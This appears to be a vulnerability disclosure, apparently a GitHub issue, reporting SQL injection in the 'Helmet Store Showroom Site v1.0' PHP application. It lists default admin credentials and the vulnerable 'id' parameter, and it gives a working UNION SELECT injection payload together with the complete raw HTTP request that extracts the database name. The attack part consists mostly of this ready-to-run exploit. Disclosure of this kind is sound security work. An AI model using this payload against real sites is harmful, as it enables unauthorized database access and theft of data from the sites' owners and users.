 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/?page=view_product&id=

Vulnerability location: /hss/?page=view_product&id=, id

dbname =hss_db,length=6

[+] Payload: /hss/?page=view_product&id=-5%27%20union%20select%201,2,3,4,database(),6,7,8,9,10,11,12,13--+ // Leak place ---> id


```sql
GET /hss/?page=view_product&id=-5%27%20union%20select%201,2,3,4,database(),6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069408-b8e0eb58-300e-48fb-abfe-131ab0648dbe.png)
